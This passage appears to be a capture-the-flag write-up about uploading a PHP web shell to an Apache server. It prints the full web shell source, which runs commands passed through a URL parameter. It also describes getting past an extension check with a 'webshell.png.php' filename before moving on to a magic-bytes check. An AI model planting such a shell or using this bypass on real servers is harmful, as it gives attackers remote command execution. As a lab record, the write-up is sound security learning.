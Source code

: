 Since it's an Apache server, then we are working with PHP

First thought is to upload a php web shell, but i gotta find a way to bypass the magic bytes check implemented in the server-side.

But first let's try uploading a php web shell. I took one from [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) from GitHub

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

So uploading a normal php file doesn't work because of the extension missing `.png`
![](assets/ctf_trickster_uploading_normal_php_error.png)

This can be bypased by adding `.png` before the `.php` since the validation code only looks for the `.png` if it's in the name, not necessarely at the end. 

Changing the name of the webshell to `webshell.png.php` works, but there is another error
![](assets/ctf_trickster_php_extension_added_but_magic_bytes_error.png)

Time for Burp...

First i uploaded a normal png image